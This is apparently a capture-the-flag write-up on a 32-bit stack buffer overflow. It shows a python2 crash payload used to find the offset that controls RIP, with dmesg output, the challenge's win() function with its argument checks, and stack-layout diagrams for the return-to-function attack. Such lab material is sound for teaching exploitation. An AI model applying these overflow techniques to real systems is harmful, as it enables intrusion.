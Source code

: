 Finding the offset to control RIP with dmesg:

```
>> python2 -c "print('A'*112+'B'*4)" | ./vuln                            139 ⨯
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
zsh: done                python2 -c "print('A'*112+'B'*4)" | 
zsh: segmentation fault  ./vuln

>> sudo dmesg
[93156.751562] vuln[439637]: segfault at 42424242 ip 0000000042424242 sp 00000000ffad47f0 error 14 in libc-2.33.so[f7d7f000+1d000]                              
[93156.751573] Code: Unable to access opcode bytes at RIP 0x42424218.
```

In the source code, after arriving at the `win()` function, we need to match two arguments in order to get the flag.

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```

As such, our stack layout should look something like this before executing the `win()` function:
```
Before win() executes
|   arg_2           |
|   arg_1           |
|   flag_address    |
|   AAAAA..         |
```

However, the flag address will be popped to execute `win()` function. This causes the arguments to be improperly offset because there is supposed to be a return address after `win()` completes. In this case, `arg_1` will become the return address, `arg_2` will become `arg_1` and there will be a missing `arg_2`.
```
After win() executes
|   arg_2           |
|   arg_1           |
                        <-- Missing return address 
|   AAAAA..         |
```
